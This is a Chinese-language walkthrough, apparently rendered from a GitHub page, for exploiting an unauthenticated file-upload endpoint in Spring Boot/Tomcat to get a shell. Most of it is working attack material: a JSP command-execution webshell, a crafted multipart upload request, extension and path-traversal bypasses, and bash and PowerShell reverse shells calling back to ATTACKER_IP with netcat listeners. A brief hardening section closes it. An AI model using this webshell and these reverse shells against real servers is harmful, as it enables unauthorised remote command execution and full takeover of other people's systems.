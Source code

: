 ### 利用未授权任意文件上传漏洞在 Spring Boot (Tomcat) 中 GetShell 的详细步骤

#### 漏洞原理
Spring Boot 默认使用 Tomcat 作为嵌入式容器。若存在**未授权任意文件上传接口**且未对上传文件类型、路径和内容校验，攻击者可直接上传恶意 JSP 文件，通过 Tomcat 解析执行获取服务器权限。

---

### 详细利用步骤

#### 1. **准备 JSP Webshell**
创建一个可执行系统命令的 JSP 文件（如 `shell.jsp`）：
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
// 基础命令执行 Webshell
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while (disr != null) {
        out.println(disr); 
        disr = dis.readLine();
    }
}
%>
```

#### 2. **定位上传接口**
使用工具扫描或分析前端代码，找到未授权上传接口（如 `/upload`、`/api/upload`）。  
**关键特征**：  
- 无需认证（无 Cookie/Session 校验）
- 支持 `multipart/form-data` 请求

#### 3. **上传 Webshell**
通过 **Burp Suite** 或 **Curl** 发送上传请求：
```http
POST /unprotected-upload-endpoint HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%><% if (request.getParameter("cmd") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); ... } %>
------WebKitFormBoundaryABC123--
```

#### 4. **绕过常见限制（可选）**
- **扩展名过滤**：尝试 `shell.jsp` → `shell.jpg.jsp`、`shell.jsp%00.jpg`
- **Content-Type 绕过**：  
  `Content-Type: image/jpeg`（实际内容为 JSP 代码）
- **路径遍历**：在文件名中加入目录穿越  
  `filename="../../webapps/ROOT/shell.jsp"`

#### 5. **确定 Webshell 访问路径**
Spring Boot 应用静态资源默认路径（需根据实际情况调整）：
```
http://target.com/uploads/shell.jsp        # 自定义上传目录
http://target.com/shell.jsp                # 直接上传到 ROOT
http://target.com/images/shell.jsp         # 静态资源目录
http://target.com/../webapps/ROOT/shell.jsp # 路径遍历后
```

#### 6. **执行命令 GetShell**
访问 Webshell 并执行系统命令：
```
http://target.com/uploads/shell.jsp?cmd=whoami
```
**关键命令**：
```bash
# Linux 反向 Shell
cmd=bash -c 'exec bash -i &>/dev/tcp/ATTACKER_IP/PORT <&1'

# Windows 反向 Shell
cmd=powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### 7. **获取交互式 Shell**
在攻击机监听端口：
```bash
nc -lvnp 4444  # Linux
nc.exe -lvp 4444  # Windows
```
触发反向 Shell 连接后获得服务器权限。

---

### 加固建议
1. **身份校验**：为上传接口添加权限验证（如 Spring Security）。
2. **文件类型白名单**：校验 `Content-Type` 和文件扩展名。
   ```java
   String[] allowedTypes = {"image/jpeg", "image/png"};
   ```
3. **重命名文件**：使用随机文件名（避免用户控制扩展名）。
4. **隔离存储**：将上传目录置于 WebRoot 外，或通过控制器代理访问。
5. **删除执行权限**：在 Tomcat 配置中禁用上传目录的脚本执行：
   ```xml
   <!-- conf/web.xml -->
   <servlet>
     <servlet-name>default</servlet-name>
     <init-param>
        <param-name>readonly</param-name>
        <param-value>true</param-value>
     </init-param>
   </servlet>
   ```

> **注意**：实际利用需根据目标环境调整路径和绕过方式。漏洞利用后应立即通知厂商修复。
